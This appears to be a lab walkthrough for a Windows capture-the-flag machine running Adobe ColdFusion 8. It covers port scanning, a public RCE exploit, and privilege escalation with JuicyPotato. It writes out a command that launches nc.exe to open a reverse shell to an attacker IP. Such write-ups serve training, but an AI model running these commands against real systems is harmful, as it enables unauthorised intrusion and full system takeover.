







- Machine Name: Artic
- OS Type: Windows
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
PORT      STATE SERVICE REASON          VERSION
135/tcp   open  msrpc   syn-ack ttl 127 Microsoft Windows RPC
8500/tcp  open  fmtp?   syn-ack ttl 127
49154/tcp open  msrpc   syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration

### Port 8500/HTTP

HTTP service is running on port 8500



let’s open the CFIDE directory



we found interesting directory administrator/ upon visiting the administrator path it shows the **Adobe ColdFusion 8 Administrator**



searching for the known vulnerability i found ColdFusion 8 is vulnerable to RCE

https://www.exploit-db.com/exploits/50057

in exploit change:



lhost to your machine’s IP

and run the exploit

```bash
python3 50057.py
```



checking the privileges of the tolis user using `whoami /priv` command i found that we have SeImpersonatePrivilege enabled let’s use the GodPotato to abuse this privilege

first we’ll transfer the nc.exe and [JuicyPotato](https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe) to target machine

```bash
JuicyPotato.exe -l 443 -p c:\\windows\\system32\\cmd.exe -a "/c c:\\temp\\nc.exe -e cmd.exe 10.10.14.17 443" -t * -c {659cdea7-489e-11d9-a9cd-000d56965251}
```



check the listener on port 443

